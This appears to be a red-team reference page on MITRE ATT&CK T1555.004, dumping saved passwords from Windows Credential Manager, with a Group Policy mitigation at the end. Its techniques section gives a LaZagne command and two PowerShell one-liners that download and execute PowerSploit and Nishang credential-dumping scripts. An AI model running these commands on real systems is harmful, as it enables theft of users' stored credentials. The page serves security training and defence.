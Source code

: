 ```yaml
---
description: https://attack.mitre.org/techniques/T1555/004/
---
```


# Windows Credential Manager

**ATT\&CK ID:** [T1555.004](https://attack.mitre.org/techniques/T1555/004/)

**Permissions Required:** <mark style="color:red;">**Administrator**</mark> | <mark style="color:red;">**SYSTEM**</mark> | <mark style="color:green;">**User**</mark>

**Description**

Adversaries may acquire credentials from the Windows Credential Manager. The Credential Manager stores credentials for signing into websites, applications, and/or devices that request authentication through NTLM or Kerberos in Credential Lockers (previously known as Windows Vaults).[\[1\]](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh994565\(v=ws.11\)#credential-manager-store)[\[2\]](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-8.1-and-8/jj554668\(v=ws.11\)?redirectedfrom=MSDN)

The Windows Credential Manager separates website credentials from application or network credentials in two lockers. As part of [Credentials from Web Browsers](https://attack.mitre.org/techniques/T1555/003), Internet Explorer and Microsoft Edge website credentials are managed by the Credential Manager and are stored in the Web Credentials locker. Application and network credentials are stored in the Windows Credentials locker.

Credential Lockers store credentials in encrypted `.vcrd` files, located under `%Systemdrive%\Users\[Username]\AppData\Local\Microsoft\[Vault/Credentials]\`. The encryption key can be found in a file named `Policy.vpol`, typically located in the same folder as the credentials.[\[3\]](https://www.passcape.com/windows\_password\_recovery\_vault\_explorer)[\[4\]](https://blog.malwarebytes.com/101/2016/01/the-windows-vaults/)

Adversaries may list credentials managed by the Windows Credential Manager through several mechanisms. `vaultcmd.exe` is a native Windows executable that can be used to enumerate credentials stored in the Credential Locker through a command-line interface. Adversaries may gather credentials by reading files located inside of the Credential Lockers. Adversaries may also abuse Windows APIs such as `CredEnumerateA` to list credentials managed by the Credential Manager.[\[5\]](https://docs.microsoft.com/en-us/windows/win32/api/wincred/nf-wincred-credenumeratea)[\[6\]](https://github.com/gentilkiwi/mimikatz/wiki/howto-\~-credential-manager-saved-credentials)

Adversaries may use password recovery tools to obtain plain text passwords from the Credential Manager.[\[4\]](https://blog.malwarebytes.com/101/2016/01/the-windows-vaults/)

## Techniques

### LaZagne

```
LaZagne.exe windows
```

![](../../../../.gitbook/assets/lazagne-passwords.png)

### Get-VaultCredential (PowerSploit)

```powershell
iex (New-Object Net.Webclient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-VaultCredential.ps1"); Get-VaultCredential
```

![](../../../../.gitbook/assets/Get-VaultCredential.png)

### Get-WebCredentials (Nishang)

**Github:** [https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)

```powershell
powershell iex (New-Object Net.Webclient).DownloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-WebCredentials.ps1"); Get-WebCredentials
```

![](../../../../.gitbook/assets/Get-WebCredentials.png)

## Mitigation

### **Group Policy**

**Policy Description**

This security setting determines whether Credential Manager saves passwords and credentials for later use when it gains domain authentication.

**Policy name**

`Network access: Do not allow storage of passwords and credentials for network authentication`

**Location**

`Computer Configuration\Windows Settings\Security Settings\Local Policies\Security Options`

**Value**

`Enabled`

**Reference**

{% embed url="https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-access-do-not-allow-storage-of-passwords-and-credentials-for-network-authentication" %}

![](../../../../.gitbook/assets/credential-vault-Mitigation.png)
